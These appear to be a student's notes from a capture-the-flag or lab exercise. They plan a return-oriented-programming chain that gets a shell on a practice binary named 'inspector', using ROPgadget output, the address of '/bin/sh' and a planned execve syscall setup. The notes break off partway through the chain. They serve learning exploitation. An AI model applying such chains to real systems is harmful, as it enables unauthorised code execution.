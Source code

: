 ##### 128 gadgets according to *ROPgadget*
* I must simplify

Ideal is going to be if we have a `syscall` gadget:
Syscalls:
```
┌──(kali㉿kali)-[~/Desktop/6-Week]
└─$ ROPgadget --binary inspector | grep -i "syscall"
0x0000000000400623 : mov ebp, esp ; syscall
0x0000000000400622 : mov rbp, rsp ; syscall
0x0000000000400621 : push rbp ; mov rbp, rsp ; syscall
0x0000000000400625 : syscall
```

That's cool, so if we're using that `syscall` at `0x400625`, we'll want to use it to call `execve`
1) Put `"/bin/sh"` into `rdi` (the first arg of `execve`)
	1) Find `"/bin/sh"` address
	2) Find gadget to push address onto stack
		1) (wait...I can put things on the stack...I have this power!)
2) Put `0x00` into both `rsi` and `rdx` (The next two args)
	1) Find `mov rsi 0x00` gadget
	2) Find `mov rdx, 0x00` gadget
3) Put `0x3b` in `rax` to tell `system` to call `execve`

Basically want to :
```
mov rdi, <Addr /bin/sh>
mov rsi, 0x00
mov rdx, 0x00
mov rax, 0x3b
syscall
```

#### Put `"/bin/sh"` into `rdi` (the first arg of `execve`)
Basically `mov rdi, <Addr /bin/sh>`
Can see that `inspector` has that data somewhere using *strings*
```
┌──(kali㉿kali)-[~/Desktop/6-Week]
└─$ strings inspector | grep  -i ".bin.sh"
/bin/sh
```
Found `/bin/sh` at `0x00400708` using the [[Ghidra]] search tool
![[Pasted image 20240309171720.png]]
A `useful_string` in memory... how convenient!

##### `push rbp ; mov rbp, rsp ; pop rdi ; ret` at `0x000000000040062a`
```
┌──(kali㉿kali)-[~/Desktop/6-Week]
└─$ ROPgadget --binary inspector | grep -i "rdi"   
0x0000000000400626 : add eax, 0x55c35dc3 ; mov rbp, rsp ; pop rdi ; ret
0x000000000040062c : mov ebp, esp ; pop rdi ; ret
0x000000000040062b : mov rbp, rsp ; pop rdi ; ret
0x000000000040062e : pop rdi ; ret
0x000000000040062a : push rbp ; mov rbp, rsp ; pop rdi ; ret
```
Chose that one because it has built in proper movement of the stack pointers
